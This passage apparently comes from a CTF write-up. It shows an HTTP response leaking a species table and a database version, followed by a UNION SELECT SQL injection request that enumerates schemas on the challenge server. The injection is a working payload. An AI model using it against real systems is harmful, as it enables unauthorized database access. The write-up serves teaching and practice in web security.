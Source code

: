 HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 4341
Server: Werkzeug/1.0.0 Python/3.7.3
Date: Sun, 15 Mar 2020 13:30:32 GMT

[["Advent","Humanoid"],["Aras",""],["Arburian Pelarota","Functionally extinct due to the destruction of their home planet Arburia, they are bulky yellow aliens that can curl into a ball, much like apillbug, and are very hard to damage in ball form, and they use this to crush enemies either by bouncing around or rolling over them"],["Baalols",""],["Bailies","Machine race that conquered Earth"],["Beings of the Extra Terrestrial origin which is Adversary of human race",""],["Brain Dogs",""],["Brikar",""],["Briori",""],["Cthulhi",""],["Daxamites","Humanoid"],["Deep Ones","Fish-like humanoids who serve and worship the Great Old Ones known as Father Dagon and Mother Hydra."],["Defiance","band of many different races"],["Delvians","Humanoid - Similar to humans in appearance, but evolved from plants. Blue, bald, sensitive to sunlight, procreate through air-borne spores."],["Demiurg",""],["Denobulans","Humanoid"],["Dom Kavash",""],["Doog","Reptiloid with canine features. Extremely dull-witted."],["Dremer",""],["Elgyem","Maintain Halo Rings, but are not officially part of the Covenant. Large, pink, squid like creatures. No real threat to Humanity other than maintaining the Halo Rings, whicharea threat to humanity."],["Eywa",""],["Festival","An evil race of bugs that live in the Firebug hive inside of the Lavarynth."],["Gashlai","Gaseous humanoids, they can either exist in gaseous mediums (such as gas pipes in Victorian Households) or inside the corpses of others."],["G'keks",""],["Gnaar",""],["Gowachin",""],["Grendarl","Intelligent bipedal species known for their scavenging, hoarding, and trading. Though not a violently aggressive species they are very fond of human blood."],["Gretchin",""],["Grogs","Humanoid"],["Hoix",""],["Hooloovoo","Ape-like reptilian carnivores"],["Hoon",""],["Jem'Hadar",""],["Jotoki","Their skin is dull yellow, with light brown markings and have beady eyes. Only male Joozians have been shown."],["Kafers","Humanoid"],["Kig-yar",""],["Knnn",""],["Lance Corporal Dororo",""],["Leerans",""],["Liir","Gelatinous, shapeshifting creatures, they are carnivorous in nature, more specifically preying on elderly humans. They are fond of high levels of heat, but are weak to and deathly afraid of water."],["Little Guys",""],["Macra","Saber Tyrant"],["Merseians","millipede-like"],["Micronoids",""],["Mon Calamari",""],["Moroks",""],["Mutons",""],["Nemet","Humanoid, completely grey."],["Nicassar",""],["Ood",""],["Orandoans","Humanoid, Ascended to a higher plain of existence in non-corporial form"],["Overlords",""],["P'lod",""],["Polymorph",""],["The Prin","Humanoid; formidable ancient race of mysterious origin; reside primarily on Phase World, center of the Three Galaxies; possess phase powers, enabling manipulation of physical and dimensional space; generally indifferent to anything that does not pose a threat to themselves or the cosmos as a whole."],["Q",""],["Remans",""],["Rodians","Humanoid"],["Sathar",""],["Scrin","Humanoid. Genetically engineered offshoot of humans, harvested from Earth 27,000 years ago. Lower heat resistance than humans, but double the average life expectancy"],["S\u00e9roni","Arachnid, capable of phase-shifting to turn invisible"],["Shevar",""],["Silicoids",""],["Skedar","Sessile, plant-like beings mounted in personal mechanical vehicles (skrodes)"],["Skinnies",""],["Slylandro","Humanoid"],["Snovemdomas",""],["Species",""],["Syreen","Humanoid"],["Tavleks",""],["Aaamazzarite","City-sized alien spaceship. Nickname given by Cassie Sullivan. They created a series of waves to wipe out humanity and invade Earth."],["Titanide",""],["Traskans","Compare with the earlierflat catsfromRobert A. Heinlein's<a href=/wiki/The_Rolling_Stones_(novel) title=The Rolling Stones (novel)>The Rolling Stones</a>."],["Vorcarian bloodtracker",""],["Xel'Naga",""],["Yanme'e","Slug-like parasites. They need a host to see, walk, and communicate, and are the main antagonists of the Animorphs series, intent on enslaving other species."],["Yridian","Alternative name for the humanoidIridonianrace whose most distinctive feature is the array of small horns on top of their heads.  Their home planet isIridonia, though they have established many colonies on planets throughout the galaxy.<a href=#cite_note-Wizards-1>[1]</a>The most well known member isDarth Maul."],["5.7.29","1"]]
```

Database schemas can be read.

```
GET /query?search=amazonis_planitia%20UNION%20SELECT%20schema_name%2C%201%20FROM%20information_schema.schemata&{}&_=1584147989793 HTTP/1.1
Host: web.ctf.b01lers.com:1001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest